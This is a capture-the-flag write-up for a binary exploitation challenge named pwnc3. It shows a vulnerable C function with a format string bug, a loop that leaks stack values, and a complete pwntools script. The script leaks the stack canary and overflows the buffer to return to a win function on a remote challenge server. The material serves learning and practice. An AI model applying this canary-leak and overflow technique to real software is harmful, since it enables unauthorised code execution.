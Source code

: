 ```yaml
---
description: Binary Exploitation
---
```


# pwnc3

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

{% file src="../../.gitbook/assets/pwn (2)" %}

{% file src="../../.gitbook/assets/pwn (2).c" %}

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Another simple challenge that uses an actual canary this time. Since there isn't any visible variables to overwrite, I had to use the regular way to bypass canary, which requires me to leak it using Format String Exploits. Luckily, the program gives a lot of chances to scout the correct canary!

```c
void pwnme(){

	char name[32];
	char surname[32];

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home ");
	printf(name);
	printf("\n");

	printf("Insert your first surname: ");

	scanf("%s",surname);

	printf("Insert your second surname: ");

	scanf("%s",surname);


	printf("Your user has been added!!!\n");

}
```

Since finding the correct canary takes time, I used a loop to fuzz through a lot of them at once:

```python
# FUZZING for canary
for i in range(0, 40):
    io = start()
    io.clean()
    io.sendline(bytes(f'%{i}$p', 'utf-8'))
    log.info(f'{i} Leaking stack: {io.recvline()}')
    io.close()
```

Knowing the basics of what canary addresses look like based on [https://ir0nstone.gitbook.io/notes/binexp/stack/canaries](https://ir0nstone.gitbook.io/notes/binexp/stack/canaries), I found the canary at `$15p`. And with that, just do the usual overwriting variables technique with the leaked canary and return to the win function:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42013)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
# tbreak main
b *pwnme+60
b *pwnme+231
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

RET = 0x000000000040111f
WIN = 0x00000000004011a6

io = start()
io.clean()
io.sendline(b'%15$p')
io.recvuntil(b'home ')

# leak
leak = io.recvline().strip()
leak = int(leak, 16)
log.info(f'Leaked address: {hex(leak)}')

io.sendline(b'winter')
io.clean()

payload = flat(
    cyclic(40, n=8),
    leak,
    cyclic(8, n=8),
    RET,
    WIN
)

io.sendline(payload)

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>
